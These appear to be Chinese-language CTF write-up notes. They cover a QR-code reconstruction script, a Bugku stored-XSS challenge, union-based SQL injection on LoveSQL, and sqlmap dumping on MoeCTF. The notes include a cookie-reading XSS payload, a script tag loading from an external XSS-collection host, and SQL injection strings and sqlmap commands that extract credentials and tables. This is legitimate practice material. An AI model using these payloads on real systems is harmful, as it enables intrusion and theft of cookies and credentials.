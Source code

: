 # CTF SR 23.3.30

## Misc Bugku 1 和 0 的故事

0 对应白色，1 对应黑色，转换成图片后在左上左下右上添加定位符即可扫描得到 flag

```py
from PIL import Image

with open("./1 和 0 的故事. txt", 'r') as f:
    lines = f.readlines()
    width = len(lines[0]) - 1 # \n
    height = len(lines)
    img = Image.new('RGB', (height, width), color = 'white')
    width, height = img.size
    print(img.size)
    for x in range(width):
        for y in range(height):
            num = lines[y][x]
            if num == '0':
                img.putpixel((x, y), (255, 255, 255))
            else:
                img.putpixel((x, y), (0, 0, 0))

    # 添加定位图案
    for i in range(7):
        img.putpixel((i, 0), (0, 0, 0))
        img.putpixel((0, i), (0, 0, 0))
        img.putpixel((i, 6), (0, 0, 0))
        img.putpixel((6, i), (0, 0, 0))

        img.putpixel((width - i - 1, 0), (0, 0, 0))
        img.putpixel((width - i - 1, 6), (0, 0, 0))
        img.putpixel((width - 6 - 1, i), (0, 0, 0))
        img.putpixel((width - 1, i), (0, 0, 0))

        img.putpixel((i, width - 7), (0, 0, 0))
        img.putpixel((0, i + width - 7), (0, 0, 0))
        img.putpixel((i, 6 + width - 7), (0, 0, 0))
        img.putpixel((6, i + width - 7), (0, 0, 0))

    for i in range(3):
        for j in range(3):
            img.putpixel((i + 2, j + 2), (0, 0, 0))
            img.putpixel((i + 2 + width - 7, j + 2), (0, 0, 0))
            img.putpixel((i + 2, j + 2 + width - 7), (0, 0, 0))

    img.save("01QRcode.bmp")
```

https://www.cnblogs.com/luogi/p/15469106.html
https://cli.im/deqr

## Web Bugku 留言板

可以用 burp 绕过前端输入过滤，但是后端仍存在过滤，转义了双引号、尖括号等，尝试使用题目给出的插入图片方法，能获得 img 标签，但是由于双引号被过滤，无法闭合 URL，无法触发 onerror，网上题解都是通过 dirsearch 扫到 admin.php 和 db.sql，但由于题目修改，db.sql 文件已经不存在了，暂时只能根据网上方法得到的用户名和密码登入 admin (没有尝试 sql 注入)，后端存储部分没有做过滤，可以直接触发 alert，flag 在 cookie 中找到。

```
content=<script>alert(document.cookie)</script>
```

因为后端没有过滤所以可以直接插入 xss 平台链接

```html
<sCRiPt sRC=//uj.ci/ao></sCrIpT>
```

但是等了一段时间没有收到 flag，不知道后台有没有定期访问管理页面的逻辑。

## web sql

好久没学复习下
没有 from 的 select 一般是显示数据或者赋值之用。https://bbs.csdn.net/topics/390345636
read https://ctf-wiki.org/web/sqli/

## sqlmap

sqlmap 是一款基于 python 编写的渗透测试工具，在 sql 检测和利用方面功能强大，支持多种数据库。

## [极客大挑战 2019]LoveSQL

username 用 `1'or 1 = 1 #` 即可登入得到回显

```txt
Hello admin！

Your password is '4e02933eb05b9feda14ad62539b4e103'
```

但得到的不是 flag，继续尝试注入
`order by` 判断列数  

```
check.php?username=admin%27order by 3%23&password=1
```

`union select` 判断回显点为 2, 3

```
check.php?username=-1%27union select 1, 2, 3%23&password=1
```

table geekuser,l0ve1ysq1

```
check.php?username=-1%27union select 1, user(), group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
```

column id,username,password

```
check.php?username=-1%27union select 1, user(), group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```

flag{128a2a23-2c62-4c08-8173-0c409bc37236}

```
check.php?username=-1%27union select 1, user(), group_concat(id,username,password) from l0ve1ysq1%23&password=1
```

## [MoeCTF 2022]Sqlmap_boy

网页注释发现语句

```html
<!-- $sql = 'select username,password from users where username="'.$username.'" && password="'.$password.'";'; -->
```

双引号闭合 `1"or 1 = 1#`

```
?id=1
```

练习使用 sqlmap，需要在 cookie 里加上 PHPSESSID

```sh
python ./sqlmap.py -u "http://node1.anna.nssctf.cn:28480/secrets.php?id=1" --level 4 --cookie PHPSESSID=608b0af92607fd43bf536e325b275f10 --dbs
python ./sqlmap.py -u "http://node1.anna.nssctf.cn:28480/secrets.php?id=1" --level 4 --cookie PHPSESSID=608b0af92607fd43bf536e325b275f10 -D moectf --tables
python ./sqlmap.py -u "http://node1.anna.nssctf.cn:28480/secrets.php?id=1" --level 4 --cookie PHPSESSID=608b0af92607fd43bf536e325b275f10 -D "moectf" -T "flag" --columns
python ./sqlmap.py -u "http://node1.anna.nssctf.cn:28480/secrets.php?id=1" --level 4 --cookie PHPSESSID=608b0af92607fd43bf536e325b275f10 -D "moectf" -T "flag" -C "flAg" --dump
```